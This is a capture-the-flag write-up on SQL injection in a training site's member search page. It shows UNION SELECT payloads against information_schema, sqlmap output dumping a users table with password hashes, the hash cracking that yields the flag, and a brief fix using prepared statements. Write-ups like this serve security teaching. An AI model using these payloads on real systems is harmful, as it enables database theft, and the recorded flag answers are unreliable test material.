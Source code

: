 # Sql Injection Members
- In the page /?page=member there is a field to search members by their ids.
- That input gives us an SQL statement error "Unknown column 'Foo' in 'where clause'" in case of invalid input ie: Foo.

# Vulnerability
- We could imagine the SQL statement in back end is as follows:
```sql 
    SELECT * FROM users WHERE id = $_GET['id']
```
- We can enter some malicius input like this: 42 OR 1=1 this statment is always true so it will return ALL rows from the "users" table.

# Method 1: 

- We Can Use SQL Injection to find all tables of a database:
``` sql
1 UNION SELECT table_name, table_schema FROM information_schema.tables
```
- We Can Notice Something Like This:
    First name: users
    Surname : Member_Sql_Injection

- We can try to find all columns
``` sql
1 UNION SELECT table_name, column_name FROM information_schema.columns
```
- We Notice The Table users from the [First name: users] output has these columns:
    __user_id, first_name, last_name, town, country, planet, Commentaire, countersign__

- We Know now __users__ columns, we can select __Commentaire, countersign__:
``` sql
1 UNION SELECT  Commentaire, countersign FROM Member_Sql_Injection.users
```

- Notice this:
    ID: 1 UNION SELECT  Commentaire, countersign FROM Member_Sql_Injection.users 
    First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
    Surname : 5ff9d0165b4f92b14994e5c685cdce28
- Converting 5ff9d0165b4f92b14994e5c685cdce28 to plain text is FortyTwo.
- Converting fortytwo to sha256 is 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 Which is Our Flag.


# Method 2: Using SqlMap
- Using 'sqlmap' to dump users data from users table returns this:
Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                                    |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9               |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 (oktoberfest) |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d               |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28               |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
- Notice the comment: Decrypt this password -> then lower all the char. Sh256 on it and it's good !         5ff9d0165b4f92b14994e5c685cdce28
- Converting 5ff9d0165b4f92b14994e5c685cdce28 to plain text is FortyTwo.
- Converting fortytwo to sha256 is 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 Which is Our Flag.

# Fix
- We can prevent this by using prepared statements and parameterized queries.